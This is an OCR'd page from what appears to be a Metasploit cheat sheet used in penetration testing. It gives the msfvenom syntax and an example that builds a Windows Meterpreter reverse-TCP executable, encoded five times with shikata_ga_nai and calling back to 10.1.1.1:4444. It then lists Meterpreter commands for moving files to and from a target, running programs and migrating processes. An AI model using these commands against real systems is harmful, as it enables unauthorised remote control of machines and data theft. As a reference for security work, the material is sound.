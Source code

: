 ```
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]

```

Example

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe

```

##### Metasploit Meterpreter

###### Base Commands:

? / help: Display a summary of commands exit / quit: Exit the Meterpreter session

sysinfo: Show the system name and OS type

shutdown / reboot: Self-explanatory

File System Commands:

cd: Change directory

lcd: Change directory on local (attacker's) machine

pwd / getwd: Display current working directory

ls: Show the contents of the directory

cat: Display the contents of a file on screen

download / upload: Move files to/from the target machine

mkdir / rmdir: Make / remove directory

edit: Open a file in the default editor (typically vi)

Process Commands:

getpid: Display the process ID that Meterpreter is running inside.

getuid: Display the user ID that Meterpreter is running with.

ps: Display process list.

kill: Terminate a process given its process ID.

execute: Run a given program with the privileges of the process the Meterpreter is loaded in.

migrate: Jump to a given destination process ID

-   Target process must have same or lesser privileges
